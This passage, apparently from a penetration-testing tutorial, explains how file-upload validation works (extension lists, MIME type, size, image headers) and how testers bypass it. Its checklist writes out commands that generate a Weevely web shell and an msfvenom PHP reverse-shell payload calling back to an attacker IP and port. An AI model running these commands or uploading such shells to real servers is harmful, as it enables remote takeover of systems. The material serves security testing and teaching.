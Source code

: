 ### 2. File Name Validation:

- File name validation is when the server validate the file that being uploaded by checking
its extension, this validation happens based on many methods, but two of the most popular
methods are Blacklisting File Extensions and Whitelisting File Extensions.
- Blacklisting File extensions is a type of protection where only a specific extensions are being
rejected from the server, Such as php, aspx. While Whitelisting File extensions is the exact
opposite, which is only a few file extensions are allowed to be uploaded to the server, Such as
jpg, jpeg, gif.

### 3. Content-type / MIME-type Validation:

- Content-Type validation is when the server validate the content of the file by checking the
MIME type of the file, which can be shown in the http request. For example, some image file
uploads validate the images uploaded by checking if the Content-Type of the file is an image type.
- For Example: `Content-type: image/png`

### 4. Content-Length Validation:

- Content-Length validation is when the server checks the length of the content of the
uploaded file and restricts a file size that can’t be exceeded, Although this type of validation is
not very popular, But it can be shown on some file uploads.
- For Example: `Not allow file size greater than 10 bytes`

### 5. Checking the Image Header:

- When image upload only is allowed, most web applications usually validate the image header by using a server-side function such as `getimagesize()` in PHP. When called, this function will return the size of an image. If the file is not a valid image, meaning that the file header is not that of an image, the function will return FALSE. Therefore, several web applications typically check if the function returns TRUE or FALSE and validate the uploaded file using this information.
- This can be bypassed by using magic numbers

[List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

# Testing For File-Upload and Exploiting.

![https://blog.yeswehack.com/wp-content/uploads/mindmap.png.webp](https://blog.yeswehack.com/wp-content/uploads/mindmap.png.webp)

## Base Step

```markdown
1. Browse the site and find each upload functionality.
2. Start with basic test by simply uploading a web shell using Weevely
	`weevely generate <password> <path>`
																	OR
	 Use Msfvenom `msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.8 lport=4444 -f raw`
3. Try the extension bypasses if that fails
4. Try changing content-type to bypass
5. Try Magic number bypass 
6. Try Polygot or PNG IDAT chunks bypass
7. Finally if successful then upload small POC or exploit further.
```
